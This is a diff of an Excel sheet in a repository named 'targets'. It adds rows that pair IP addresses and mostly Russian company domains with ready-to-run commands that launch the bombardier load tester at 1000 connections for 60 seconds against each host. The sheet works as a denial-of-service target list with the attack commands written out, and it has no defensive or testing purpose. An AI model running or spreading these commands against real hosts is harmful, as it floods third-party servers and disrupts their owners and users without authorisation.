

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 1: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.217.20.1&& sleep 5; | 91.217.20.1 | arkhbum.com
+row 2: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 148.251.9.18&& sleep 5; | 148.251.9.18 | arkhbum.com
-A3: …60s -l 35.246.6.109&& sleep 5;
+A3: …60s -l 23.236.62.147&& sleep 5;
-B3: 35.246.6.109
+B3: 23.236.62.147
+row 4: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.74.216.63&& sleep 5; | 176.74.216.63 | utupack.ru
+row 5: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.74.218.245&& sleep 5; | 176.74.218.245 | utupack.ru
+row 6: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.74.219.91&& sleep 5; | 176.74.219.91 | utupack.ru
+row 7: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.31.3.154&& sleep 5; | 176.31.3.154 | utupack.ru
-A8: …60s -l 5.101.155.235&& sleep 5;
+A8: …60s -l 188.138.25.51&& sleep 5;
-B8: 5.101.155.235
+B8: 188.138.25.51
+row 9: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 136.243.223.232&& sleep 5; | 136.243.223.232 | utupack.ru
+row 10: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 176.74.222.29&& sleep 5; | 176.74.222.29 | utupack.ru
+row 11: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 108.162.193.170&& sleep 5; | 108.162.193.170 | rostovbumaga.ru
+row 12: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 108.162.192.139&& sleep 5; | 108.162.192.139 | rostovbumaga.ru
+row 15: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 92.127.158.62&& sleep 5; | 92.127.158.62 | sckkbur.ru
+row 16: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 92.127.158.61&& sleep 5; | 92.127.158.61 | sckkbur.ru
+row 18: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.226.223.50&& sleep 5; | 91.226.223.50 | sckkbur.ru
+row 20: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.105.85.119&& sleep 5; | 172.105.85.119 | karavaevo.ru
```
Also changed, not shown: 113 added rows, 20 removed rows, 4 moved rows and 3 edited cells elsewhere in this sheet, formulas that keep their value.
